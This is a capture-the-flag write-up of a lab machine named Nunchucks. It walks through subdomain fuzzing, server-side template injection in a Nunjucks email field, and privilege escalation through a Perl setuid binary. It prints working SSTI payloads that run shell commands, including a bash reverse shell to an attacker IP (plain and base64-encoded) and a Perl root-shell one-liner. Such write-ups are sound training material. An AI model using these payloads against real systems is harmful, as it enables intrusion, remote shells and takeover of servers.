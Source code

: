 1. Run Nmap to discover any open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2. Try to open the ip address on the browser and get a domain nunchuks.htb. Add to **/etc/hosts/** so I can open the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3. Checking the Sign Up and Log In feature and can't use both of them.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4. Checking another website features and contents. In the footer, I found that there is a store feature to be opened coming soon.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. So I thought that there is a hidden subdomain from the website. To check it, I use this command `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. Hmm, it seems the characters has average of 30587. To get the unique one (the subdomain that we want to find) we can filter it with `--hh` in our command `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7. I add it to **/etc/hosts** that give me the access to open the subdomain.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8. It seems that the website only receive email inputs.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9. First thing is SQLi, so I put ' in front of my dummy email and it seems fine without error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10. Next thing is SSTI, try to input `{{6*8}}@gmail.com` and yes it shows 48 as the result.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. Searching for a payload that related to "nunchucks" and found this amazing [payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml).

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. I try to execute reverse shell attack with this [tool](https://www.revshells.com/) and it didn't work.

payload:<br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. Knowing that the execSync function can execute a bash command. So I search the user.txt location and found in /home/david/user.txt. 

Payload: <br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14. Again, I try to execute reverse shell and got an idea to insert it to the david terminal. First, we can encode it to base64 and send it with execSync function.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. Now I can execute it with adding bash infront of payload.sh command. 

Payload: <br>
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16. I successfully get the david terminal. Next I check the directories and discover a backup file in .pl extension (perl).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17. Open the file and I found that the POSIX qw(setuid) must be 0 to use the root privilege.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/35736c03-14e3-437d-8e3a-1e195ee01e2e)

18. To change it, I use the payload from this [web](https://gtfobins.github.io/gtfobins/perl/#capabilities). 

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19. It doesn't work, so I write the payload to the new perl file with echo.

Command:<br>
`echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

20. Give execute permission to the file.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22. Run the payload and we get the root privilege. The root flag can be found in /root/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc418505-95f3-4189-9d53-02b84c690307)






















